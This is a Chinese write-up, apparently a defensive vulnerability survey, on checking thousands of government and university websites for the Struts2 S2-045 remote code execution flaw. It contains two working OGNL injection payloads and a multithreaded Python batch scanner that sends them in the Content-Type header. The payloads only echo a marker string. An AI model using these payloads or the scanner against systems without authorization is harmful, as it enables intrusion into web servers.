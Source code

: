 
# 基于全省政府网站的S2-045漏洞排查
---

## 关于S2-045

[1] [https://cwiki.apache.org/confluence/display/WW/S2-045](https://cwiki.apache.org/confluence/display/WW/S2-045 "漏洞官方公告")   

[2] [http://paper.seebug.org/241/](http://paper.seebug.org/241/ "S2-045原理初步分析")

[3] [http://bobao.360.cn/learning/detail/3571.html](http://bobao.360.cn/learning/detail/3571.html "【重大漏洞预警】Struts 2 远程代码执行漏洞（CVE-2017-5638）（含PoC）")


## 验证S2-045
公开的PoC中Payload是用来执行系统命令，敏感关键字比较多容易触发防火墙，不适合大范围排查。对于验证S2-045而言，只需要验证ognl表达式是否被执行，修改Payload后得到：  
Payload1:

    %{(#test='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#contex['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(#ros.println('ognl-executed!')).(#ros.close()).(#ros.flush())}

Payload2:

	~multipart/form-data %{(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ros=@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()).(#ros.println('ognl-executed!')).(#ros.close()).(#ros.flush())}



## 排查S2-045

该漏洞爆发后第一时间对省内政府单位网站进行排查，相对于此前S2系列漏洞如S2-032，网站是否存在S2-045漏洞很容易被程序自动检测出来。对于如S2-032，需要找到一个有效Action的URL发送Payload，验证才是有效的。而对于S2-045，任意一个能触发S2入口过滤器的URL就可以（具体请参考相关的漏洞分析文章）。通常实际情况中网站S2入口过滤器监听URL的配置有：  
1）监听所有URL。占绝大多数情况，此时对任意URL发送Payload验证都可以验证是否存在漏洞；

    <filter-mapping>
        <filter-name>struts-prepare</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>

2）监听.action后缀URL。此时只需要被验证的URL后缀为.action就可以验证是否存在漏洞；

        <url-pattern>*.action</url-pattern>


3）监听.do后缀的URL。这种情况已经非常少了，但验证过程中还是发现有，故也需要处理；


        <url-pattern>*.do</url-pattern>


4）监听特殊的URL（比如.xyz）。这种情况由于触发S2入口过滤器的URL不可预知，根据页面去动态提取URL耗费较大，而这种情况实际中又非常少见，故在大范围验证进选择忽略。

        <url-pattern>*.xyz</url-pattern>


综上，对于任意给定的网站[`http://target.com/a/b.xyz`]，判断是否存在S2-045漏洞的过程如下：  

1）对URL[`http://target.com/a/b.xyz`]发送Payload验证：
>如果验证存在漏洞则结束验证，否则继续往下;  

2) 对URL[http://target.com/a/test.action]发送Payload验证：
> 如果验证存在漏洞则结束验证，否则继续往下;  

3) 对URL[`http://target.com/a/test.do`]发送Payload验证：
> 如果验证存在漏洞则结束验证，否则继续往下;  

4) 验证结束，漏洞不存在。  


## 验证结果

对全省共6000多个政府单位网站验证后，其中60个存在S2-045漏洞；  
对全省*.edu.cn下2000多个网站进行验证，其中12个存在S2-045漏洞；  
详情略。

## 验证程序

	#!/usr/bin/env python   
	# encoding: utf-8
	# S2-045批量验证程序
	#
	import requests
	import urllib2
	import os,sys
	import Queue
	import threading
	import ssl
	import urlparse
	import optparse
	 
	ssl._create_default_https_context = ssl._create_unverified_context
	
	g_que = Queue.Queue()
	g_log = None
	
	def _poc(theurl=''):
	    #import random
	    #return random.choice([200,400,404])
	    header = {}
	    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
	    header["Content-Type"]='''%{(#nike='multipart/form-data').\
	(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).\
	(#_memberAccess?(#_memberAccess=#dm):\
	((#container=#context['com.opensymphony.xwork2.ActionContext.container']).\
	(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).\
	(#ognlUtil.getExcludedPackageNames().clear()).\
	(#ognlUtil.getExcludedClasses().clear()).\
	(#context.setMemberAccess(#dm)))).\
	(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).\
	(#ros.println('ognl')).(#ros.close()).(#ros.flush())}'''
	    try:
	        request = urllib2.Request(theurl,headers=header)
	        response = urllib2.urlopen(request, timeout=30)
	        content = response.read()
	        if content.startswith('ognl'):
	            return 200
	        else:
	            return 404
	    except urllib2.HTTPError as e:
	        if e.code == 404:
	            return 404
	    except Exception as e:
	        pass
	    return 400
	
	def _check(url='',baseurl=''):
	    path = urlparse.urlparse(url).path
	    if path=='':
	        url += '/'
	    if baseurl != '':
	        baseurl = os.path.dirname(baseurl+'/')
	    else:
	        baseurl = os.path.dirname(url)
	    theurls = []
	    theurls.append(url)
	    ext = os.path.splitext(path)[1]
	    if ext != '.action':
	        theurls.append(baseurl + '/index.action')
	    if ext != '.do':
	        theurls.append(baseurl + '/index.do')
	    #if ext != '.jspx':
	        #theurls.append(baseurl + '/index.jspx')
	    for i in theurls:
	        ret = _poc(theurl=i)
	        #print('* debug: %s => %s' % (i,ret))
	        if ret == 200:
	            break
	    return ret
	
	
	def _thread():
	    while g_que.qsize()>0:
	        url_index = g_que.get()
	        ret = _check(url=url_index)
	        if ret == 200:
	            print url_index,(50-len(url_index))*' ',ret
	        if g_log:
	            file(g_log,'a').write('%s,%s\n'%(url_index,ret))
	
	
	if __name__ == '__main__':
	    parser = optparse.OptionParser('usage: %prog [--targets=targets_file] [web_url] [--log=log_file] [--threads=30]')
	    parser.add_option('--log', metavar='FILE', dest='_log', default=None, type='string', help='log to FILE')
	    parser.add_option('--targets', metavar='FILE', dest='_targets', default=None, type='string', help='load targets from FILE')
	    parser.add_option('--threads', metavar = '30', dest='_threads_num', default=30, type='int', help='default=30')
	    (_options, _args) = parser.parse_args()
	
	    if _options._log:
	        g_log = _options._log
	    
	    if _options._targets:
	        for i in file(_options._targets,'r').readlines():
	            url_index = i.strip()
	            g_que.put(url_index)
	    else:
	        g_que.put(_args[0])
	
	    _threads = []
	    _thread_num = _options._threads_num
	    for i in range(_thread_num):
	        t = threading.Thread(target=_thread)
	        _threads.append(t)
	    for t in _threads:
	        t.start()
	    for t in _threads:
	        t.join()


## 注意事项
1. 部分网站不同目录下挂载不同的WEB应用,排查时会遗漏这些应用；
2. urllib2跟进30X重定向时会丢弃Content-type字段。

